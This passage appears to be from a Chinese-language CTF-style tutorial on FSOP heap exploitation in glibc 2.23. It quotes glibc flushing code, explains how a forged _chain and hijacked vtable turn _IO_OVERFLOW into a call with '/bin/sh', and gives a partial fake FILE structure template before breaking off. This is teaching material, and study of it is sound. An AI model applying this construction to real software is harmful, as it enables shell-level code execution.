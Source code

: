 ```c
      && _IO_OVERFLOW (fp, EOF) == EOF)   //如果输出缓冲区有数据，刷新输出缓冲区
    result = EOF;
 
    fp = fp->_chain; //遍历链表
    }
    [...]
}
```

这里推荐一篇文章

[IOFILE利用](https://xz.aliyun.com/t/5508)

![1693383208549](../images/1693383208549.png)

(感慨

所以FSOP其实就是通过伪造 *\_chain* 字段和劫持 *vtable* 去劫持 *\_IO_OVERFLOW* ，其参数为flags，即 *IO_FILE_Struct* 首地址，从而完成劫持

##### 利用条件：

伪造IO FILE结构体，并利用漏洞将`_IO_list_all`指向伪造的结构体，或是将该链表中的一个节点（`_chain`字段）指向伪造的数据，最终触发`_IO_flush_all_lockp`，绕过检查，调用`_IO_OVERFLOW`时实现执行流劫持。

**其中，绕过条件是检查缓冲区中是否有数据**

```c
if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
       || (_IO_vtable_offset (fp) == 0
           && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
                    > fp->_wide_data->_IO_write_base))
```

于是，2.23下的FSOP可以构造如下的chunk

```c
._chain => chunk_addr
chunk_addr
{
  file = {
    _flags = "/bin/sh\x00", //对应此结构体首地址(fp)
    _IO_read_ptr = 0x0,
    _IO_read_end = 0x0,
    _IO_read_base = 0x0,
    _IO_write_base = 0x0,
    _IO_write_ptr = 0x1,
      ...
      _mode = 0x0, //一般不用特意设置
      _unused2 = '\000' <repeats 19 times>
  },
  vtable = heap_addr
}
heap_addr
{
```